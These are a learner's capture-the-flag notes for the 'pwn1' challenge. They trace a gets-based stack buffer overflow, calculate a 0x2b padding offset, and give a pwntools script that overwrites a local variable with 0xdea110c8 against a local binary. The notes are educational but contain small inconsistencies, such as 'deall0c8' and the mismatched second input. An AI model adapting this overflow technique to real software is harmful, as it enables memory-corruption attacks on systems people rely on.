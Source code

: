 
![[pwn1]]


### Recon

![[Pasted image 20240507211432.png]]
### Walkthrough


![[Pasted image 20240507210239.png]]

- inputs to be given ```Sir Lancelot of Camelot```
- second ```Sir Lancelot of Camelot```
- when click on ==-0x215eef38==

![[Pasted image 20240507210432.png]]
### Finding vulnerability

- notice the last gets function does not specifed how many inputs to be given,so it read till EOF
- it is BOF and change local_18 to deall0c8
### Finding Offset

- click on local_18
- ![[Pasted image 20240507210940.png]]
- we wanted to jump to loacl 18 by giving input to loacl43
- the padding should be 0x43 - 0x18 = 0x2b
- ![[Pasted image 20240507211150.png]]
### Constructing Payload

```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./pwn1')

# Make the payload
payload = ""
payload += "0"*0x2b # Padding to `local_18`
payload += p32(0xdea110c8) # the value we will overwrite local_18 with, in little endian p32 because 32 bit file

# Send the strings to reach the gets call
target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

# Send the payload
target.sendline(payload)

target.interactive()

```


